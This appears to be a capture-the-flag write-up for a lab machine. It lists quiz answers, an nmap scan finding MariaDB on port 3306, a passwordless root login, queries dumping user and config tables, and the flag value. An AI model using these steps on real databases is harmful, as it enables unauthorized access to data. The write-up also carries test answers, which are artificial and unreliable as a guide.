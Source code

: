 TASK 1

What does the acronym SQL stand for?

Structured Query Language

TASK 2

During our scan, which port running mysql do we find?

3306

TASK 3

What community-developed MySQL version is the target running?

MariaDB

TASK 4

What switch do we need to use in order to specify a login username for the MySQL service?

u=

TASK 5

Which username allows us to log into MariaDB without providing a password?

root

TASK 6

What symbol can we use to specify within the query that we want to display everything inside a table?

*

TASK 7

What symbol do we need to end each query with?

;

# Research

## nmap portscan

    ┌──(kali㉿kali)-[~]
    └─$ nmap 10.129.95.232 -p 3306 -A -T4
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-24 18:41 BST
    Nmap scan report for 10.129.95.232
    Host is up (0.019s latency).

    PORT     STATE SERVICE VERSION
    3306/tcp open  mysql?
    |_ssl-cert: ERROR: Script execution failed (use -d to debug)
    |_ssl-date: ERROR: Script execution failed (use -d to debug)
    |_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
    |_tls-alpn: ERROR: Script execution failed (use -d to debug)
    |_sslv2: ERROR: Script execution failed (use -d to debug)
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
    |   Thread ID: 99
    |   Capabilities flags: 63486
    |   Some Capabilities: SupportsLoadDataLocal, ODBCClient, LongColumnFlag, SupportsCompression, Speaks41ProtocolOld, IgnoreSigpipes, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsTransactions, DontAllowDatabaseTableColumn, InteractiveClient, FoundRows, Support41Auth, ConnectWithDatabase, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
    |   Status: Autocommit
    |   Salt: %>I4f&*><P]aRT2<sR"O
    |_  Auth Plugin Name: mysql_native_password

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 199.75 seconds


## Connect to database

    ┌──(kali㉿kali)-[~]
    └─$ mysql -h 10.129.95.232 -P 3306 -u root
    
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 91
    Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10
    ...
 
 ## Query
    
    MariaDB [(none)]> show databases;
    +--------------------+
    | Database           |
    +--------------------+
    | htb                |
    | information_schema |
    | mysql              |
    | performance_schema |
    +--------------------+
    4 rows in set (0.027 sec)

    ...

    MariaDB [(none)]> use htb;
    
    MariaDB [htb]> show tables;
    +---------------+
    | Tables_in_htb |
    +---------------+
    | config        |
    | users         |
    +---------------+
    2 rows in set (0.024 sec)

    
    ...
    
    MariaDB [htb]> select * from users;
    +----+----------+------------------+
    | id | username | email            |
    +----+----------+------------------+
    |  1 | admin    | admin@sequel.htb |
    |  2 | lara     | lara@sequel.htb  |
    |  3 | sam      | sam@sequel.htb   |
    |  4 | mary     | mary@sequel.htb  |
    +----+----------+------------------+
    4 rows in set (0.024 sec)

    MariaDB [htb]> select * from config;
    +----+-----------------------+----------------------------------+
    | id | name                  | value                            |
    +----+-----------------------+----------------------------------+
    |  1 | timeout               | 60s                              |
    |  2 | security              | default                          |
    |  3 | auto_logon            | false                            |
    |  4 | max_size              | 2M                               |
    |  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
    |  6 | enable_uploads        | false                            |
    |  7 | authentication_method | radius                           |
    +----+-----------------------+----------------------------------+
    7 rows in set (0.020 sec)



# Reproduce

    mysql -h 10.129.95.232 -P 3306 -u root
    
    MariaDB [(none)]> use htb;

    MariaDB [htb]> select * from config;
    +----+-----------------------+----------------------------------+
    | id | name                  | value                            |
    +----+-----------------------+----------------------------------+
    |  1 | timeout               | 60s                              |
    |  2 | security              | default                          |
    |  3 | auto_logon            | false                            |
    |  4 | max_size              | 2M                               |
    |  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
    |  6 | enable_uploads        | false                            |
    |  7 | authentication_method | radius                           |
    +----+-----------------------+----------------------------------+
    7 rows in set (0.020 sec)


# Flag

7b4bec00d1a39e3dd4e021ec3d915da8

